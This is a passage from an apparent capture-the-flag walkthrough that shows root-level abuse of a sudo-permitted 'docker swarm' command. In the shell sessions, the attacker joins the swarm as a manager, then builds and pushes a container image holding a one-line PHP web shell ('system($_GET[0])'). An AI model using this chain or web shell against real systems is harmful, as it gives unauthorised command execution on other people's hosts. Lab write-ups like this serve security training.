 We see that we can run the `docker swarm` command as `root`.

Abusing this may require some research on the players' part, but it is quite simple:

0. Initialise a swarm on the target

1. Join the swarm from our attacking machine, as a Manager
2. Create a malicious image on our attacking machine
3. Create a swarm service with the malicious image and push it to the swarm's nodes
4. This will create the malicious image on all nodes that are a part of the swarm, including the target
5. Profit

We would start by initialising the swarm, but that seems to already be the case:

```bash
plessing@swarm:~$ sudo docker swarm init

Error response from daemon: This node is already part of a swarm. Use "docker swarm leave" to leave this swarm and join another one.
```

We then generate a manager token for our attacking  machine:

```bash
plessing@swarm:~$ sudo docker swarm join-token manager

To add a manager to this swarm, run the following command:

    docker swarm join --token SWMTKN-1-4lgn49qnlg2em8i8kiow50f9x1qt0rh0ru453kbs2xcvv9b9ym-2sa3ni9uj490oioypa72nnyof 10.129.230.94:2377
```

We run the command on our machine:

```bash
docker swarm join --token SWMTKN-1-4lgn49qnlg2em8i8kiow50f9x1qt0rh0ru453kbs2xcvv9b9ym-2sa3ni9uj490oioypa72nnyof 10.129.230.94:2377

This node joined a swarm as a manager.
```

Next, we build a malicious image and push it to the target registry.

```bash
mkdir pwnpod
cd pwnpod

cat > Dockerfile <<EOF
FROM php:latest
WORKDIR /var/www/html
COPY index.php .
CMD ["php", "-S", "0.0.0.0:1337"]
EOF

cat > index.php <<EOF           
<?php system(\$_GET[0])?>
EOF

docker image build . -t pwnpod:latest
docker image tag pwnpod:latest 10.129.230.94:5000/pwnpod:latest
docker push 10.129.230.94:5000/pwnpod:latest
```
